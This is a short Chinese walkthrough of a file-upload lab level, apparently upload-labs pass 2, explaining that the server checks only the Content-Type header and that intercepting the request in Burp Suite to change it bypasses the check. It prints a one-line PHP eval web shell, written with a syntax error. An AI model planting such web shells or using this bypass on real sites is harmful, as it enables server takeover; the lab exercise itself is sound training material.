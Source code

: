 ## 解题wp(By:独立团孙德胜Alan)
本pass在服务端对数据包的MIME进行检查！

## 1.打开第二关

![](./img/1.png)

## 2.上传一个普通的shell.php文件

```
<?php @eval($_POST('Alan'));?>
```

![](./img/2.png)

#### 提示不允许上传。

### 3.分析代码

![](./img/3.png)

#### 发现原来是检测了Content-Type头，于是我们可以通过修改头的方式绕过。

### 4.对于验证了MIME的问题，我们可以使用Burpsutie抓包，修改Content-Type，绕过验证。

![](./img/4.png)